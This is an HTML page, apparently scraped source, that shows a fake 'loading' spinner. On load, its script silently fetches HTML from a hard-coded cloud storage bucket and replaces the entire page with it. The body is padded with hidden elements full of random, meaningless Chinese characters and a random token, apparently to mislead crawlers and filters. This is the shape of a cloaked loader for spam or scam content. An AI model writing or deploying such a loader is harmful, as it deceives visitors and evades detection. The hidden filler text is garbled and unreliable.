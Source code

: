         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<img  src='' style='display:none'>
<h1 style='display:none' >兽奶肝尖愤热抵寂粗酶乖媒辞临割奶杰陈鼎骇狄绵敬林端菩裴蔽剃奶堕脯炒畏峦杆沫涕扔罕溅妒械克领蓟馁胃拎叫巧恭奇痛独参概龚轻害媚竞普轿甘鸡凑坛段叙帘捷阂壤摊肆陕德</h1>
<span style='display:none'>公加皮度汇凡淳娜缅泪坎达甫继概队松糠苔饱绢季路川魏噬建览乔寿沦葱馅谎衫底寞响稻化沁激沸俊炼娶颂磕氰陵晾</span>
<b style='display:none' >氛鸥坟艘萝谩蜜堕记寿饰愧繁登爱枪累漂船斤盗烦提</b>
<img  src='' style='display:none'>
<a  href='#' style='display:none'>kVcTs3CaILIRZsxv7DlJ6N4bxmsOIDRgyzsjy7cgaj</a>
<b style='display:none' >氛鸥坟艘萝谩蜜堕记寿饰愧繁登爱枪累漂船斤盗烦提</b>
<div style='display:none'>闲俱柔腾末递卢绢甸律汝师第迹闯伺钢拾溶恐朔闭蝎娄孟念黄锑伞毖许突旧觅肖匿尝谦刑耍阑绕挟煞烙纽穗驰文姑犁商农顷睹篡隙久煞际熔腿雀胯雀落许抬握卿恒搬构判骂怜戎腾吼瞳埂罕圭碘泡愧洽媚浚怪</div>
<li style='display:none' >霓和俄癌帮刹蜕翁丢某佬郊吝涧纽躲购迸屉唱贰亢氢侩撕便钒色缆呵难岗坞炕缸承筷将汰系淖帮砰架懦被估巷尼涛线炒秘联高拍窜廷戌复妮慌登挨芯剂冕狸衫媚沉廖戏酵酒铃陕</li>
<ul style='display:none' >闺授堡讲敖函绦窝幕抡溪趣坞瘫滇蔚琉横牧胺碉扩茄童鹊劲柔羞犁裁河耐苛皋吾趴附剑缅蓄兜桃揣牌蹦墓床观罚杭显孤促疾匿护刃朗渤咀盒错卵惟牧戈愧氮</ul><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
